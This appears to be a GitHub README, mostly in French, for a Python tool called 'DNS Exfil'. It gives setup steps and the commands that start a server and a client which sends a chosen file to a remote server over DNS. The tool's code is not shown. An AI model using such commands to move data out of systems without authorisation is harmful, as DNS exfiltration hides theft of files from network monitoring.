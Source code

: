 # DNS-file-transfer
simple python script to transfer files from client to server over dns

# DNS Exfil — README (FR)

**Usage légal uniquement.** N'exécutez que sur des machines dont vous avez l'autorisation.

---

## Serveur

### 1) Se placer dans le dossier

```bash
cd server
```

### 2) Créer l'environnement virtuel

```bash
python3 -m venv myenv
```

### 3) Activer l'environnement

```bash
source myenv/bin/activate
```

### 4) Installer les dépendances

```bash
pip install -r requirements.txt
```

### 5) Lancer le serveur

```bash
python3 dns_exfil_server.py -d domaine.com -p motdepasse --port 53535
```

---

## Client

### 1) Se placer dans le dossier

```bash
cd client
```

### 2) Installer les dépendances

```bash
pip install -r requirements.txt
```

### 3) Lancer le client

```bash
python dns_exfil_client.py <fichier> domaine.com motdepasse -s=<ip_serveur> -p=53535
```

---
